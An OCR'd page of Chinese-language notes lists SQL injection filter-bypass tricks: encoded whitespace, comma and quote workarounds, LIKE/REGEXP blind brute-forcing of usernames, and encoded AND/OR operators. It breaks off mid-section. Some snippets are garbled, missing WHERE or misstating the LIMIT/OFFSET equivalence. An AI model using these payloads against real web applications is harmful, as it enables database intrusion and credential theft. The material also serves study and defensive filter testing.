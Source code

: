 #### 常见绕过方式

1. 空格被拦截

   ```
   %20 %09 %0a %0b %0c %0d %a0 %00 /**/ /*!*/
   ```

2. 单双引号被过滤

   - 十六进制
   - ascii char()
   - 子查询

3. 逗号被拦截

   `from 1 for 1`代替`,1,1`

   ```sql
   select substr(database(),1,1) -> select substr(database() from 1 for 1);
   ```

   limit 1 offset 0代替limit 0,1

   ```sql
   select username from users limit 0,1 -> select username from users limit 0 offset 1；
   ```

   join

   ```sql
   select * from(select user())a join (select database())b
   ```

   like爆破

   ```sql
   select username from users like 'a%'     #返回1则为匹配到
   select username from users like 'ad%'
   select username from users like 'adm%'
   select username from users like 'admi%'
   ```

   regexp爆破

   ```sql
   select username from users regexp '^a'
   select username from users regexp '^ad'
   select username from users regexp '^adm'
   ```

4. and or xor绕过

   ```sql
   and -> && -> %26%26
   or -> || -> %7c%7c
   xor -> | -> %7c
   ```

5. 比较符和等于号绕过

   利用greatest绕过<>过滤
